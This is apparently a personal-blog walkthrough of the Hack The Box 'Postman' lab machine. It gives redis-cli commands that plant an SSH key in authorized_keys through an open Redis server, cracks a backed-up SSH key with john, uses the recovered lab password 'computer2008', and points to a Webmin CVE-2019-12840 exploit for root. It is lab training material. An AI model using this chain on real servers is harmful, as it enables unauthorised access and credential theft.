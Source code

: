 ```yaml
---
layout: writeup
title: Postman
description: HTB writeup
logo: /assets/img/writeups/postman_logo.png
show-avatar: false
permalink: /writeups/postman.html
OS: Linux
difficulty: Easy
release: 2 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/114053">TheCyberGeek</a>
cleared: 9 Nov 2019
publiished: 2019 11 09
redirect_from: /walkthroughs/htb-postman.html
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  8 21:44:03 2019 as: nmap -sC -sV -p- -Pn -oN nmapscan.txt 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.088s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  8 21:50:09 2019 -- 1 IP address (1 host up) scanned in 366.53 seconds

```

We see a number of open ports. Checking what is on port 80 with our browser doesn't show us much of interest

![Cyber Geek](/assets/img/writeups/postman_webpage.png)

Checking searchsploit for webmin 1.910 we see that there is an RCE with root privileges as detailed by CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/

however that requires a credentialed user, which we don't have. If we turn our attention to the redis instance running on port 6379 tho, we see that if we can access it, it is vulnerable to this exploit

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

So lets check

```
root@kali:~/HTB/Boxes/Postman# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "HILBERT"
$7
HILBERT
```

Bingo! So our plan now is to try and write our SSH key onto the server and login. We need to add some whitespace to our key and then write that into Redis. We can use **redis-cli** for this. 

```
root@kali:~/HTB/Boxes/Postman# (echo -e "\n\n"; cat id_rsa_.pub echo -e "\n\n") > key.txt
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/HTB/Boxes/Postman# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
```

now we can logon to redis, and try and write our SSH key into a users .ssh folder. The default folder for redis is /var/lib/redis so if a .ssh folder has been created for redis user we can write to that.

```
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

looks like it has bee. Now lets SSH in

```
root@kali:~/HTB/Boxes/Postman# ssh -i id_rsa_ redis@10.10.10.160
<...>
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$                
```

First lets cat the /etc/passwd file so we can get the other users

```
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...>
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

 We don't have write access to /home/Matt/.ssh unfortunately so we can't duplicate our previous exploit to gain access to user Matt. Enumerating the machine further we find a backup of an SSH key.

```
redis@Postman:~$ ls /opt
id_rsa.bak
```

Lets copy this, and see if we can crack the password on it. To do this we will use a program called John the Ripper. First we need to convert the key into a suitable format. For this we will use **ssh2john**, then we can run john the ripper on it with a wordlist to try and crack it.

```
root@kali:~/HTB/Boxes/Postman# python /usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash
root@kali:~/HTB/Boxes/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:12 DONE (2019-11-12 00:48) 0.07710g/s 1105Kp/s 1105Kc/s 1105KC/sa6_123..*7¡Vamos!
Session completed
```

We cracked the password, which is "computer2008". Let's see if we can login to Matt with this

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
517adXXXXXXXXXXXXXXXXXX08a2f3c
```

Success! We will also find that we can login to webmin on port 10000 with Matt:computer2008

<h3 align="center">On To Root</h3>

So now with valid credentials we can use CVE-2019-12840 which has a metasploit module. Make sure to set SSL to true as port 10000 is using https

![root](/assets/img/writeups/postman_root.png)

we can now access the root.txt flag.
